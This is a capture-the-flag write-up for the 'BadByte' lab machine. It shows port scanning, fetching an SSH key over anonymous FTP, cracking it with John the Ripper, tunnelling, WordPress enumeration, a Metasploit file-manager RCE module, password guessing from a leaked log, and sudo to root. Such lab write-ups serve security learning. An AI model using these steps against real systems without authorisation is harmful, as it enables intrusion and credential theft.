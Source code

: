 # BadByte Write-up - Easy

## Nmap 

```
nmap -sC -sV <ip> -p-
```

Open ports:
- 22: ssh. OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
- 30024: tcp. vsftpd 3.0.3. Anonymous login allowed

None of the versions appear to be vulnerable.


## FTP and John the Ripper

Nmap showed we have anonymous access to the ftp server with some interesting files:
```
ftp <ip> 30024
get note.txt
get id_rsa
```
note.txt informs us about the key in the same directory and gives us the username **errorcauser**, so I downloaded it and used ssh2john with John the Ripper to attempt to crack the private key.

```
ssh2john id_rsa > johnkey
john --wordlist=rockyou.txt johnkey
```

which quickly cracked the credentials: **errorcauser : cupcake**.


## SSH

```
chmod 600 id_rsa
ssh errorcauser@<ip> -i id_rsa -D 1337
```

I gave the key the correct permissions and used tunnelling to bypass the firewall and get an initial shell on the system.
Some helpful information was found in the note.txt file in the current directory:
```
Hi Error!
I've set up a webserver locally so no one outside could access it.
It is for testing purposes only.  There are still a few things I need to do like setting up a custom theme.
You can check it out, you already know what to do.
-Cth
:)
```
This may indicate that the current theme is vulnerable.


## Wordpress Enumeration

After using dynamic port forwarding and proxychains to bypass the firewall, I evaluated the web server running on port 80 using nmap with http-wordpress-enum and wpscan.

```
proxychains nmap -sT 127.0.0.1 --script=http-wordpress-enum
wpscan --url http://127.0.0.1:<port> -e ap,at -vv
```

note.txt indicated that the theme might be vulnerable, and running searchsploit on the installed duplicator plugin found by nmap confirmed an arbitrary file read exploit.
The more interesting vulnerability, though, is in the wp-file-manager plugin with version 6.0, so I fired up Metasploit to exploit it.

```
msfconsole
use exploit/multi/http/wp_file_manager_rce 
<set options>
run
```
This gave me a meterpreter session, where I could find the flag in cth's home directory.


## Privilege Escalation to root

When browsing the file system, I found an interesting file /var/log/bash.log. This contained the password **G00dP@$sw0rd2020** so I tried to ssh to the cth user with this password.

```
ssh cth@<ip> -i id_rsa -D 1337
```

However, it said the password was incorrect. After some head scratching, I tried to brute force ssh with some similar passwords, and eventually got in with **G00dP@$sw0rd2021**.

Evaluating the sudo permissions to find a privilege escalation vector:
```
sudo -l
User cth may run the following commands on badbyte:
    (ALL : ALL) ALL
```

Since I can run all commands with sudo, I simply ran sudo bash to get root and find the final flag.
```
sudo bash
cat /root/root.txt
```

